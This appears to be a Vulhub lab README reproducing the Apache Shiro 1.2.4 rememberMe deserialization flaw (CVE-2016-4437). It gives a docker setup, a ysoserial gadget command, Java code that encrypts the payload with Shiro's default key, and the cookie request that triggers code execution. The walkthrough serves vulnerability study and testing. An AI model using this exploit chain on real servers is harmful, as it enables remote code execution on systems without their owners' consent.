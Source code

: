 # Apache Shiro 1.2.4 Deserialization Remote Code Execution (CVE-2016-4437)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Shiro is a powerful and easy-to-use Java security framework that performs authentication, authorization, cryptography, and session management.

In Apache Shiro 1.2.4 and earlier versions, encrypted user information is serialized and stored in a cookie named "remember-me". Attackers can forge user cookies using Shiro's default key, triggering a Java deserialization vulnerability that allows arbitrary command execution on the target machine.

## Environment Setup

Execute the following command to start a Web application using Apache Shiro 1.2.4:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` and you can log in using the credentials `admin:vulhub`.

## Vulnerability Reproduction

Use ysoserial to generate a CommonsBeanutils1 Gadget:

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

Encrypt the payload using Shiro's built-in default key:

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

Then send the following request with the payload in the rememberMe cookie:

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: rememberMe=<encrypted_payload>


```

You will see the `touch /tmp/success` command has been executed:

![](1.png)
